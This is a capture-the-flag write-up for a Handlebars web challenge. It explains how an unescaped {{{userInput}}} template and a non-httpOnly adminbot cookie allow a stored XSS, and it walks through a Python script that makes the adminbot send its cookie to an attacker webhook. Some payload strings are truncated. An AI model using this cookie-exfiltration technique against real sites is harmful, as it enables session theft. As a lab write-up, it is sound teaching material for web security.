






# 🏴 Can You Trick Me?

> **Category:** Web  
>
> **Points:** 20 pts  
>
> **Author:** Sebastian  
>
> **Description:** I built a website to help others create designs and ideas for their own webpages! Can you trick the administrator of this website to send you the flag?

---

## Purpose

The purpose of this challenge was to craft a request to an adminbot that redirects to a page with an XSS vulnerability, and use this XSS vulnerability to exfiltrate the cookie that the adminbot has set on it. In this XSS, you can make a request to a webhook, and since the site has httpOnly cookies disabled, you can leak the cookie with javascript using document.cookie, and make a request to a webhook you control with the value of the cookie.

## Exploitation

**Looking Through the File System**

For challenges like this, downloading the files and looking through them is imperative. if we look through the file system, the interesting routes are:

/generate

```js
app.post('/generate', (req, res) => {
    const userInput = req.body.input || '';
    const pageId = Date.now().toString();
    res.redirect(`/page/${pageId}?input=${encodeURIComponent(userInput)}`);
});
```

/page/:id

```js
app.get('/page/:id', (req, res) => {
    const pageId = req.params.id;
    const userInput = req.query.input || '';
    res.render('generated', { userInput, pageId });
});
```

/adminbot

```js
app.get('/adminbot', async (req, res) => {
    const targetUrl = req.query.url;

    console.log(`Admin bot visiting: ${targetUrl}`);

    try {
        const browser = await puppeteer.launch({
            headless: 'new',
            args: ['--no-sandbox', '--disable-setuid-sandbox']
        });
        const page = await browser.newPage();

        await page.setCookie({
            name: 'flag',
            value: 'WSUCTF{f4k3_flag}',
            domain: 'waynestateuniversity-ctf24-handlebars.chals.io', // if running locally, replace with localhost or docker interface ip
            path: '/',
            httpOnly: false,
        });

        await page.goto(targetUrl, { waitUntil: 'networkidle2', timeout: 5000 });
        await browser.close();

        res.send('Admin bot has visited the page');
    } catch (err) {
        console.error('Admin bot error:', err);
        res.status(500).send('Error running admin bot');
    }
});
```

Straight away, we know that we have to exploit this because we see the cookie in the page.setCookie() command with the value of WSUCTF{f4k3_flag}.

And on the frontend:

/views/generated.hbs

```hbs
<body>
  <div class="container">
    <h1>Page ID: {{pageId}}</h1>
    <p>This page was generated based on your input:</p>
    <div class="input-display">
      {{{userInput}}}
    </div>
  </div>
</body>
```

In this page, we see {{{userInput}}}. This is dangerous because when using triple curly braces in handlebars, any javascript and html on the page is not escaped. So we can do html injection like this:



turns into this:



And this javascript injection:



turns into this:



So we have a way to get an XSS injection, now we have to trick the adminbot into visiting our webpages. The adminbot accepts a url to visit a website, so we can give it a url to visit a generated webpage that will trigger an XSS and exfiltrate their cookie. In this challenge, the generate endpoint won't be useful, only the /page/:id will be useful to render the vulnerable generated.hbs file with a userInput and pageId.

One tricky part of this that you have to be careful of when doing this is to url encode the payload that will go into the /page/:id and also the payload that goes into the adminbot endpoint, so as a result part of our payload will be double url encoded.

Another tricky part of this is that after trying with the normal
```js
' + document.cookie)">
```
to exfiltrate the adminbot cookie. This didn't end up working. It turns out that when using headless browsers, sometimes its hard to trigger xss on browsers using just pure html. A better strategy is to use
a <script></script> tag that adds Javascript to the page. This ensures that the entire page gets loaded when the browser visits the url, the page will be populated with everything, and afterwards, the malicious img tag will be added to the page which will then cause the XSS to trigger.

We can accompish this by changing the payload to this:

```js
<script>document.body.innerHTML+='?c='+document.cookie+'\')">'</script>
```

This will load javascript, then add the image to the page, which guarantees that our onerror function triggers.

Once we have this payload, we can put it into our python script to solve the challenge. The python script for this is located in the solve folder.

This is the initial payload that we need to get the adminbot to execute:

```py
'''<script>document.body.innerHTML+='?c='+document.cookie+'\\')">'</script>'''
```

Now, we have to send this payload to the adminbot. In order to do this, first we will construct a new url for the adminbot to visit which will include our /page/:id endpoint. To do this we will url encode our payload and add it to the input query parameter:

```py
payload = f'''
<script>document.body.innerHTML+=''</script>
'''
encoded_input = quote(payload)
target_url = f"https://waynestateuniversity-ctf24-handlebars.chals.io/page/1337?input={encoded_input}"
```
Then, we have to make a request to the /adminbot endpoint, and deliver this payload to the url query parameter. As long as we url encode this target url again, and send it to the adminbot, the bot should visit our page, the onclick error should trigger, and we should get the bot's cookie sent to our webhook.

```py
encoded_target_url = quote(target_url)
adminbot_url = f"https://waynestateuniversity-ctf24-handlebars.chals.io/adminbot?url={encoded_target_url}"


print(f"Sending to: {adminbot_url}")
requests.get(adminbot_url)
```


## Solution





flag: ```WSUCTF{Next_t1me_use_pr3pared_st4t3ments_plz}```